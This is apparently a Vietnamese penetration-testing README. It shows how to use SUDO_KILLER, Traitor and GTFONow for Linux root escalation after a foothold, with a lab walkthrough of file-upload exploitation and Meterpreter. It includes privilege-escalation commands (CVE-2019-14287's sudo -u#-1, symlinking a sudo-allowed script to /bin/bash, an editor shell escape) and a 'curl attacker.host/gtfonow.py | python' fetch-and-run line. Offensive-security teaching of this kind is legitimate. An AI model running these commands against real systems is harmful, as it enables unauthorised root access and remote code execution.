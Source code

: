 Các tool ở đây thường là để upload lên mục tiêu sau khi đã lấy được shell (Có thể thực hiện upload qua Meterpreter, Weevely, ...)
# SUDO_KILLER
![image](https://github.com/Myozz/everyTools/assets/94811005/92c08546-91c8-4ab3-a673-98597e0d72ac)
## Giới thiệu
- Link: [https://github.com/TH3xACE/SUDO_KILLER](https://github.com/TH3xACE/SUDO_KILLER)
- Đây là một công cụ được thiết kế để khai thác Privilege Escalation trên các hệ thống Unix-like.
- SUDO_KILLER có thể khai thác các lỗ hổng dưới đây: ![image](https://github.com/Myozz/everyTools/assets/94811005/71fb4f81-8f24-4747-a3a2-d2811dd3bd0f)
- Công cụ này vẫn được cập nhật các CVE mới như ```CVE-2023-22809```

## Thử nghiệm
- Ta sẽ sử dụng SUDO_KILLER trên mục tiêu, có thể thông qua reverse shell hay bất kì các nào khác có thể thực thi trên mục tiêu
- Nếu chạy mặc định mà không thêm bất kì tuỳ chọn nào, công cụ sẽ sử dụng hầu hết các chức năng để kiểm tra mục tiêu
### CVE Exploit
- Phần này được hiện ở phần **Checking for disclosed vulnerables (CVE)** ![image](https://github.com/Myozz/everyTools/assets/94811005/6c537e2c-2c54-4a77-a765-27d652bc9cf2)
- Ở đây công cụ sẽ liệt kê các CVE mà có khả năng cao hệ thống mục tiêu sẽ gặp phải, cũng như đưa ra một đường dẫn Exploit. Ta chỉ cần làm theo  ![image](https://github.com/Myozz/everyTools/assets/94811005/53e8b79c-3470-4cc4-b714-4adab97304d0)
- Như hình trên, ta đã khai thác thành công mục tiêu mà đổi được mật khẩu của root
### Dangerous Bins
- Hiển thị ở phần **Checking for Dangerous binaries within sudo** ![image](https://github.com/Myozz/everyTools/assets/94811005/59e12898-2135-460e-8d29-9e105c9c1f61)
- Phần này cho phép chỉnh sửa các file quan hệ thống như /etc/passwd
### Common Misconfiguration
![image](https://github.com/Myozz/everyTools/assets/94811005/030ec55e-c713-4658-a4c7-32c18a14b87e)
- Theo như hướng dẫn ta sẽ đọc file notes/chown-hR.txt tại folder của SUDO_KILLER ![image](https://github.com/Myozz/everyTools/assets/948Sửa11005/c6396386-f664-4778-8b0c-e6efa68b16e4)
- Thực hiện các bước được ghi trong file
  - Sử dụng sudo -l để kiểm tra cách lệnh mà ta có thể dùng với sudo
  - Ta để ý dòng thứ 2, ta có thể thực hiện một bash file trong thư mục user
  - Trước mắt ta chown -hR user:root /home/user/directory dưới quyền sudo ![image](https://github.com/Myozz/everyTools/assets/94811005/adc72f2c-bd53-4bb5-83bd-11a93ae86c0d)
  - Chuyển tới dir có đường dẫn tương ứng ![image](https://github.com/Myozz/everyTools/assets/94811005/99a9a14d-64b2-4a1f-96b7-41b5bbbeb182)
  - Bước tiếp theo là tạo một file setup.sh bên trong directory này với nội dung là ![image](https://github.com/Myozz/everyTools/assets/94811005/e7cf4563-0a5c-4169-928a-047cca115ac6)
  - Gán quyền thực thi cho file và chạy nó dưới quyền của sudo
  - Khi này để thực thi file vừa tạo ta cần phải quay lại thư mục gốc và chạy lệnh bằng sudo thôi ![image](https://github.com/Myozz/everyTools/assets/94811005/cb1ac512-c235-4e16-9bbf-be40ba5adc72)
### Excessive Right 
![image](https://github.com/Myozz/everyTools/assets/94811005/8f83d3bd-ede4-491e-ad59-b1f41b7bd611)
- Kiếm tra quyền của file và thư mục ![image](https://github.com/Myozz/everyTools/assets/94811005/efca74c2-151f-4801-8b64-772cbd6389f5)
- Ta thấy được có 2 file start và restart và ta (user) đang sở hữu file start.sh
- Kiểm tra bằng ```sudo -l```, ta còn thấy được ta có thể thực thi cũng như chính sửa 3 file start/restart/stop.sh bằng quyền root
- Đổi tên file ```start.sh``` thành một tên khác và thực hiện link ```start.sh``` với ```/bin/bash``` bằng lệnh ln -s
- Thực thi file ```start.sh``` với quyền sudo, vậy là ta đã thực hiện leo quyền thành công ![image](https://github.com/Myozz/everyTools/assets/94811005/262a2748-1a9e-4170-925d-86232dc957c6)
### Missing Script
![image](https://github.com/Myozz/everyTools/assets/94811005/cb3cbb6d-9030-4d98-9d4d-195eea6ede11)
- Kiểm tra quyền với ```sudo -l``` ![image](https://github.com/Myozz/everyTools/assets/94811005/964a9ba0-e043-442a-bc56-d27aa42672db)
- Ta thấy user có thể sử dụng file stop.sh với quyền sudo
- SUDO_KILLER thông báo thiếu file stop.sh tại đường dẫn của nó, vậy có nghĩa là đang có lỗi Missing Script tại đây
- Ta tạo file stop.sh với nội dung bash bất kỳ, rồi chạy nó bằng sudo ![image](https://github.com/Myozz/everyTools/assets/94811005/a1e31bdb-7249-434f-a38d-fccccb03e1d6)
### Dangerous environment variables
![image](https://github.com/Myozz/everyTools/assets/94811005/1084bb09-0beb-45ea-9497-37df4d2cfa2c)
- Ta sẽ làm theo hướng dẫn:
  - Copy file script trong dir exploits của tool sang dir /tmp/ của hệ thống
  - Thực thi lệnh ```sudo exploits/Env_exploit2.so <lệnh có thể chạy bằng sudo>``` (Kiểm tra bằng ```sudo -l```
  - ![image](https://github.com/Myozz/everyTools/assets/94811005/170dd49f-a63f-4fff-8b49-010487decb2f)
  - Ta thấy user có quyền thực thi lệnh cp bằng sudo. Vậy nên câu lệnh sẽ như sau: ```sudo exploits/Env_exploit2.so cp``` ![image](https://github.com/Myozz/everyTools/assets/94811005/cc6878e3-cf8a-40a6-94f3-b38618162db0)
### File permission hijacking (Chiếm quyền file)
![image](https://github.com/Myozz/everyTools/assets/94811005/be3fccdc-62cc-4651-b4c8-00d62fffac3f)
- Thực thi lệnh ```sudo /usr/local/bin/suđoeit /etc/printcap```
- Bên trong text editor, thực thi lệnh ```:set shell=/bin/sh``` rồi đến ```:shell```, ta sẽ mở được một root shell
### CVE-2019-14287
![image](https://github.com/Myozz/everyTools/assets/94811005/d43f18d7-0a5f-4135-8fb8-a7cc47454669)
- Làm theo hướng dẫn, ta thực thi lệnh sudo -u#-1 <path>, theo như tool thì có 2 path ta có thể dùng là **/bin/bash** và **/usr/bin/id**. Chỉ đơn giản như vậy và ta có thể vào root dễ dàng
# Traitor
## Giới thiệu
[https://github.com/liamg/traitor](https://github.com/liamg/traitor)
- Một tool tự động tìm các misconfiguration và khai thác chúng để leo quyền root
- Các lỗ hổng mà tool này có thể khai thác ![image](https://github.com/Myozz/everyTools/assets/94811005/e68717fd-b309-482d-8f4f-fe9269831e5a)
- Đây là một tool không được cập nhật kể từ 2022 nên có thể thiếu các vuln hay misconfig mới
## Các tuỳ chọn chính
- Nếu chỉ chạy tool mà không có bất kì flag nào thì tool sẽ tìm các vuln/misconfig mà có thể sử dụng để leo quyền
- ```-p```: Cung cấp password của người dùng hiện tại của mục tiêu (dùng để xác thực trong trường hợp cần thiết)
- ```-a```: Thử khai thác từng lỗ hổng có thể, dừng lại khi lấy được root shell
- ```-e```: Chỉ định misconfig/vuln để khai thác trên mục tiêu
# GTFOnow
- Link: [https://github.com/Frissi0n/GTFONow](https://github.com/Frissi0n/GTFONow)
- Một tool có khả năng khai thác hầu hết các misconfig trên GTFObin, và vẫn được cập nhật cho tới thời điểm hiện tại
- Có thể exploit bằng curl thay vì phải upload lên mục tiêu

      curl http://attacker.host/gtfonow.py | python
## Các tuỳ chọn chính
- ```--level <LEVEL>```: Tuỳ chỉnh giữa 2 level:
  - ```1```: Tuỳ chọn mặc định, quét nhanh mục tiêu
  - ```2```: Tuỳ chọn cho phép quét rộng hơn
- ```--risk <RISK>```: Mức độ rủi ro
  - ```1```: Tuỳ chọn mặc định, đảm bảo an toàn cho mục tiêu
  - ```2```: Tool sẽ tự động chỉnh sửa một số file cần thiết, chỉ nên sử dụng khi đã nắm rõ chúng làm những gì
- ```--command <COMMAND>```: Thực hiện một câu lệnh sau khi đã leo quyền thành công
- ```--auto```: Tự động khai thác thay vì yêu cầu chúng ta chọn
- ```-v```: Theo dõi tiến độ khi khai thác 
## Thử nghiệm
- Ta sẽ thực hiện qua một lab upload vuln ![image](https://github.com/Myozz/everyTools/assets/94811005/5f5e3825-e537-4cdb-8d6f-683361e44244)
- Sử dụng các công cụ tìm path/dir trên mục tiêu ta biết được mục tiêu lưu file tại path ```/uploads```
- Tiếp tục kiểm tra xem mục tiêu cho phép upload định dạng file nào, có thể tham khảo qua [https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln](https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln)
- Sau khi thực hiện kiểm tra, ta thấy được có thể sử dụng các định dạng file php1, php2,... (trừ php) có thể được sử dụng để khai thác
- Thực hiện tạo payload với định dạng file như trên, tham khảo các tool tạo payload ở [đây](https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln/Payloads)
- Upload payload vừa tạo được lên mục tiêu (Có thể tận dụng tool filepwner ở [https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln](https://github.com/Myozz/everyTools/tree/main/File%20Upload%20Vuln) để upload file qua config của nó, rồi thực hiện reverse shell (nên sử dụng meterpreter để có thể upload các công cụ kể trên lên mục tiêu
- Sau khi có được Meterpreter, bây giờ ta sẽ thử upload file GTFOnow lên mục tiêu bằng lệnh ```upload``` và dùng lệnh ```shell``` để thực thi lệnh trên mục tiêu ![image](https://github.com/Myozz/everyTools/assets/94811005/54420ce7-9162-4395-854c-81e747478410)
- Thực thi lệnh ```python gtfonow.py -a``` để bắt đầu khai thác tự động ![image](https://github.com/Myozz/everyTools/assets/94811005/c41eb7a8-29fa-425c-a729-b11adff819fb) 
- Như vậy là ta đã thành công leo quyền root lên mục tiêu


